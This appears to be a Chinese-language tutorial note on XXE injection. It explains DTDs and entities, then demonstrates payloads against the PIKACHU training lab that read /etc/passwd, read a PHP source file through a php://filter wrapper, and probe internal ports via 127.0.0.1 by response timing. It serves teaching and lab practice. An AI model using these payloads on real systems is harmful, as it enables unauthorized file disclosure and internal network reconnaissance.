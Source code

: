 ## XXE 

XXE (xml external entity injection) xml外部实体注入漏洞
攻击者通过向服务器注入指定的xml实体内容,从而让服务器按照指定的配置进行执行,导致存在注入点

**文档类型定义（DTD）**
文档类型定义（DTD）可定义合法的XML文档构建模块，它使用一系列合法的元素来定义文档的结构。
DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
**内部的 DOCTYPE 声明：**
`<!DOCTYPE 根元素 [元素声明]>`

```xml
//简单的内部DTD声明
<!--XML 声明-->
<?xml version="1.0"?>
<!--文档类型定义-->
<!DOCTYPE note [ <!--定义此文档是 note 类型的文档-->
<!ELEMENT note (to,from,heading,body)> <!--定义 note 元素有四个元素-->
<!ELEMENT to (#PCDATA)> <!--定义 to 元素为”#PCDATA”类型-->
<!ELEMENT from (#PCDATA)> <!--定义 from 元素为”#PCDATA”类型-->
<!ELEMENT head (#PCDATA)> <!--定义 head 元素为”#PCDATA”类型-->
<!ELEMENT body (#PCDATA)> <!--定义 body 元素为”#PCDATA”类型-->
]]]>
<!--文档元素-->
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```

**外部引用：**
`<!DOCTYPE 根元素 SYSTEM ” 文件名 ”> `

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
<to>George</to>
<from>John</from>
<heading>Reminder</heading>
<body>Don't forget the meeting!</body>
</note> 
```

```dtd
//note.dtd：	
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>	
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

### 什么是DTD 实体？

实体是用于定义引用普通文本或特殊字符的快捷方式的变量。

### 什么是XXE漏洞？

XXE（XML External Entity Injection），即 xml 外部实体注入漏洞，XXE 漏洞发生在应用程序解析 XML 输入时， 没有禁止外部实体的加载 ，导致可加载恶意外部文件，造成文件读取、命令执行、攻击内网网站等危害。


------

这里用PIKACHU靶场做演示:

![image-20231027120226799](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027120226799.png)

先尝试输入一段:

```xml
<?xml version="1.0"?> 
<!DOCTYPE foo [    
<!ENTITY xxe "傻逼" > ]> 
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0"?> 
<!DOCTYPE foo [    
<!ENTITY xxe SYSTEM "file:///etc/passwd" > ]> 
<foo>&xxe;</foo>
就可以查看敏感目录文件
```

------

php伪协议

```xml
<?xml version="1.0"?> 
<!DOCTYPE foo [    
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=../../phpinfo.php" > ]> 
<foo>&xxe;</foo>
```


![image-20231027122728471](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027122728471.png)

![image-20231027122754173](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027122754173.png)

------

端口开放情况

```xml
<?xml version="1.0"?> 
<!DOCTYPE foo [    
<!ENTITY xxe SYSTEM "http://127.0.0.1:80" > ]> 
<foo>&xxe;</foo>
```

```xml
<?xml version="1.0"?> 
<!DOCTYPE foo [    
<!ENTITY xxe SYSTEM "http://127.0.0.1:81" > ]> 
<foo>&xxe;</foo>
```

可以根据站点响应的时间来判断端口是否开放 第一个80端口开放 所以响应时间很短 第二个则很长 那就是没开放

**利用bp爆破模块**
![image-20231027123200638](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027123200638.png)

![image-20231027123207273](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027123207273.png)

![image-20231027123250136](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027123250136.png)

可以看到80端口响应时间最短 是开放的

------

